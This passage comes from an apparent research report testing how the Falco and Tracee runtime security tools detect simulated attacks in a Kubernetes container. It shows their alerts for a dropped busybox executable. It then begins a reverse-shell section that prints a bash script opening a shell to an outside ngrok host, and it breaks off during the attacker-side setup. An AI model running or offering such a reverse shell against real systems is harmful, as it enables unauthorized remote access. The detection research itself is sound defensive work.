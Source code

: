 \subsubsection{Detection Results}
Falco successfully detected the malicious behavior, generating the following alert:

\begin{verbatim}
Priority:    Critical
Rule:        Drop and execute new binary in container
Container:   k8s_zipapp_zipapp-6848db7cb4-6lkvt
Image:       zipapp:latest
Process:     busybox-i686
Command:     busybox-i686 echo "BOOM — upper layer binary executed"
Executed by: bash (parent), sh (grandparent)
Executed Path: /tmp/225648cd7e2493d7adc334e5cc2f27084124d8c6/busybox-i686
Flags:       EXE_WRITABLE, EXE_UPPER_LAYER
User:        root (UID 0)
Working Dir: /tmp/225648cd7e2493d7adc334e5cc2f27084124d8c6/
Source:      syscall
\end{verbatim}
The detection was triggered by the rule \textbf{Drop and execute new binary in container}, indicating that an attacker runs a custom executable inside the container. The event was classified as \texttt{Critical}, and the log specifies that the binary was executed by \texttt{bash} and \texttt{sh}.\\
Tracee also detected the attack, producing the following log:
\begin{verbatim}
Host:           zipapp-5879f489
Process:
  Name:         wget
  User:         root (UID 0)
  Syscall:      write
  Return Value: 139

Event:          dropped_executable
Trigger:        magic_write
File Written:   /tmp/568e2245203779c6ed687e3238bd3d8ad8f7293a/busybox-i686
File Type:      Executable binary (ELF)

Detection Policy: default-policy
MITRE ATT&CK:
  - Signature Name: New executable dropped
  - Severity:    Medium (2/5)
\end{verbatim}
Tracee identified a \texttt{dropped\_executable} event triggered by the \texttt{magic\_write} rule. It observed a \texttt{wget} process that wrote an executable binary. 
Both tools provide valuable information regarding the triggered event. 


\subsection{Reverse shell}

A reverse shell is a technique that allows an attacker to access a remote computer by initiating a shell session from the target system, bypassing firewall restrictions.
The reverse shell attack was executed using the same procedure described in the previous section for command injection with the only difference being the content of the \texttt{evil} script, which was modified to include the necessary commands for simulating a reverse shell.
\begin{verbatim}
#!/bin/bash
bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/14980 0>&1
\end{verbatim}
Unlike previous scenarios, this attack requires a minimal setup on the attacker's side to receive the incoming connection. Specifically, the attacker must first expose a TCP port using Ngrok:

